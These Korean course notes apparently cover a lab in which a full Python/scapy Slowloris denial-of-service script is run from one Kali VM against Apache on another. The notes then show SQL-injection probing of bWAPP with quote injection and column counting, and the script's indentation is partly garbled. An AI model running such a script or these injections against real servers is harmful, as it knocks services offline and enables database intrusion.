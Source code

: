 # (Day 7) Slowloris Attack

Created: Dec 11, 2019 1:14 PM
Tags: slowloris
Updated: Dec 11, 2019 10:48 PM

## Slowloris Attack

- HTTP 요청 헤더와 본문이 개행문자로 구분되는 특징을 이용한 공격
- 헤더의 끝을 나타내는 개행문자를 전달하지 않아 서버가 연결을 유지하도록 하는 공격

## [실습] scapy를 활용

- **Kally #2**
- `gedit slowloris.py`    slowloris 파일 생성

    #! /usr/bin/env python
    
    import sys
    import time
    from scapy.all import *
    
    def slowloris (target, num) :
        print "start connect > {}".format(target)
        syn = []
        for i in range(num) :
            syn.append(IP(dst=target)/TCP(sport=RandNum(1024,65535),dport=80,flags='S'))
    		
    		syn_ack = sr(syn, verbose=0)[0]
    	
    	ack = []
    	for sa in syn_ack :
    	    payload = "GET /{} HTTP/1.1\r\n".format(str(RandNum(1,num))) +\
    	    "Host: {}\r\n".format(target) +\
    	    "User-Agent: Mozilla/4.0\r\n" +\
    	    "Content-Length: 42\r\n"
    	
    	    ack.append(IP(dst=target)/TCP(sport=sa[1].dport,dport=80,flags="A",seq=sa[1].ack,ack=sa[1].seq+1)/payload)
    	
    	answer = sr(ack, verbose=0)[0]
    	print "{} connection success!\t Fail: {}".format(len(answer), num-len(answer))
    	print "Sending data \"X-a: b\\r\\n\".."
    	
    	count = 1
    	while True :
    	    print "{} time sending".format(count)
    	    ack = []
    	    for ans in answer :
    	        ack.append(IP(dst=target)/TCP(sport=ans[1].dport,dport=80,flags="PA",seq=ans[1].ack,ack=ans[1].seq)/"X-a: b\r\n")
    	    answer = sr(ack, inter=0.5, verbose=0)[0]
    	    time.sleep(10)
    	    count += 1
    
    if __name__ == "__main__" :
        if len(sys.argv) < 3 :
            print "Usage: {} <target> <number of connection>".format(sys.argv[0])
            sys.exit(1)
        slowloris(sys.argv[1], int(sys.argv[2]))

- **Kally #1**
    - 서버 재기동
    `service apache2 stop`
    `service apache2 start`
    - 서버 상태 확인 (브라우저) [localhost/server-status](http://localhost/server-status)
- **Kally #2**
    - `python [slowloris.py](http://slowloris.py/) KALI#1_IP 50`
    50개의 패킷을 Kalli #1에게 전송

        ![Day%207%20Slowloris%20Attack/Untitled.png](images/Day%207%20Slowloris%20Attack/Untitled.png)

- **Kally #1의 브라우저 (localhost/server-status)**
- 50개의 패킷 요청을 읽고 있음

    ![Day%207%20Slowloris%20Attack/Untitled%201.png](Day%207%20Slowloris%20Attack/Untitled%201.png)

- Kally #1
    - mysql 서버 재기동
    service mysql start
- Kally #2
    - (브라우저) Kally #1의 bWAPP 로 접속 `Kally #1_ip /bWAPP`

        ![Day%207%20Slowloris%20Attack/Untitled%202.png](Day%207%20Slowloris%20Attack/Untitled%202.png)

        영화 조회 서비스

        ---

        [화면]
        제목 : man

        [전달 ← 요청 파라미터를 통해 전달]

        sqli_1.php?=title=man

        [사용 → 쿼리문을 만드는데 사용될 것으로 유추]
        select * from movies where title = '%man%'

        ![Day%207%20Slowloris%20Attack/Untitled%203.png](Day%207%20Slowloris%20Attack/Untitled%203.png)

        입력값이 전달/사용 과정에서 조작이 발생하는지를 확인할 때

        ---

        화면]
        제목 : man'

        [전달 ← 요청 파라미터를 통해 전달]

        sqli_1.php?=title=man'

        [사용 → 쿼리문을 만드는데 사용될 것으로 유추]
        select * from movies where title = '%man'%'

        ![Day%207%20Slowloris%20Attack/Untitled%204.png](Day%207%20Slowloris%20Attack/Untitled%204.png)

        ⇒ 백엔드 db가 mysql이라는 정보와 화면에서 입력한 값은 그대로 쿼리의 생성/실행에 활용됨

        - 정상적인 쿼리가 반환하는 컬럼의 개수를 확인

        ![Day%207%20Slowloris%20Attack/Untitled%205.png](Day%207%20Slowloris%20Attack/Untitled%205.png)

        ![Day%207%20Slowloris%20Attack/Untitled%206.png](Day%207%20Slowloris%20Attack/Untitled%206.png)

- 웹 해킹 관련 서적
    - 클라이언트 side :
    - 서버 side : 웹 해킹 & 보안 완벽 가이드